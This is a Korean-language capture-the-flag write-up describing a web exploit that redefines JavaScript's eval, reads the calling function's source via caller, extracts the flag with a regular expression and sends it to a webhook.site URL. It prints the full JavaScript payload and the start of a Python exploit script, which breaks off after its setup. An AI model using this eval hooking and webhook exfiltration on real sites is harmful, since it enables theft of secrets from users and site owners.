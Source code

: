 caller에는 호출한 함수의 원형이 담기므로 설정되어있는 flag를 Leak할 수 있습니다.

그 이후 정규표현식을 이용해, flag 값만을 추출하여 공격자의 서버로 전달시키도록 Exploit payload를 작성할 수 있습니다.

아래는 eval hooking을 진행하여 flag를 얻어내는 exploit 코드입니다.

```js
org_eval = eval;

function myFunc() {
    console.log("OK");
    if (myFunc.caller === null) {
        console.log("The function was called from the top!");
    } else {
        let scripts = myFunc.caller.toString();
        let reg = new RegExp(/eval\(\"\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\$flag\[[0-9]+\] = (.+)\"\)/g);


        const matches = scripts.matchAll(reg);
        let flags = "";

        for (const match of matches) {
            flags += match[1];
            console.log(match.index)
        }

        location.href = `https://webhook.site/ce5c0ed9-5dc9-484e-9ce4-07a487e35aa0?a=` + encodeURIComponent(flags);
        return;
    }
}

eval = myFunc
```

위 코드를 확인해보면 eval 함수를 재정의하고 있습니다, eval 함수를 호출한 caller를 가져와서 caller가 없으면 아무것도 실행하지 않고, caller가 존재한다면 scripts에 호출한 caller의 toString을 사용해 문자열을 가져옵니다.

그 이후 정규표현식을 이용해서 가져온 caller의 함수 문자열과 일치하는 부분을 가져옵니다.

이를 FLAG의 길이만큼 반복하고 flags 변수에 저장하도록 합니다. flags 변수에 모두 값이 저장되었으면, webhook을 이용해 유출한 flags 값을 보낼 수 있습니다.

전체 Full Exploit 코드입니다.

```python
import hashlib
import requests
import random
import itertools

script = open('script.js', 'r').read()

ascii = "abcdefghijklmnopqrstuvwxyz0123456789!@#$%"

nonce = ""
check = ""

flag = 0

hashText = ""

def sha1(text):
    m = hashlib.sha1()
    m.update(text.encode('utf-8'))
    return m.hexdigest()

```